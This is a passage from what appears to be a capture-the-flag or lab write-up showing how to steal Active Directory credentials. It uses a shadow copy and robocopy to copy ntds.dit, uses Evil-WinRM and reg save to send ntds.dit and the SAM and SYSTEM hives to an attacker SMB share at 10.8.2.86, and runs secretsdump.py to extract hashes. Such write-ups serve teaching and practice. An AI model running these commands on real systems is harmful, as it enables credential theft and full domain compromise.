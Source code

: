 ```console
               - Not exposed  
               - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}  
               - Attributes:  No_Auto_Release Persistent Differential  
  
Number of shadow copies listed: 1  
-> expose %cdrive% F:  
-> %cdrive% = {0925b2b9-cf5d-427d-9a6b-ba68992a63fc}  
The shadow copy was successfully exposed as F:\.  
-> end backup  
->
```

Once that's done, we can make a copy of the ntds.dit file using:

```console
robocopy /B F:\Windows\NTDS . ntds.dit
```

Once that's copied, we can transfer it back over to the attacker machine. I set up an SMB server using `smbserver.py` for the transfer. 

On the target computer:

```console
net use \\attacker-address\share /user:<USER> <PASSWORD>
```

```console
*Evil-WinRM* PS C:\Windows\Tasks> copy ntds.dit \\10.8.2.86\pwnshare\ntds.dit
```

After we have the ntds.dit file copied over to our attacker machine, we need to grab the SAM and SYSTEM hives as well. 

```console
*Evil-WinRM* PS C:\Windows\Tasks> reg save HKLM\sam \\10.8.2.86\pwnshare\sam.sav
The operation completed successfully.
```

```console
*Evil-WinRM* PS C:\Windows\Tasks> reg save HKLM\system \\10.8.2.86\pwnshare\system.sav
The operation completed successfully.
```

Now that we have all these files on our attacker machine, we can run `secretsdump.py` to extract all the stored credentials.

```console
〉secretsdump.py -sam sam.sav -system system.sav -ntds ntds.dit LOCAL  
Impacket v0.12.0.dev1+20240606.111452.d71f4662 - Copyright 2023 Fortra  
  
[...SNIP...]

[*] Reading and decrypting hashes from ntds.dit    
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::  

[...SNIP...]
```
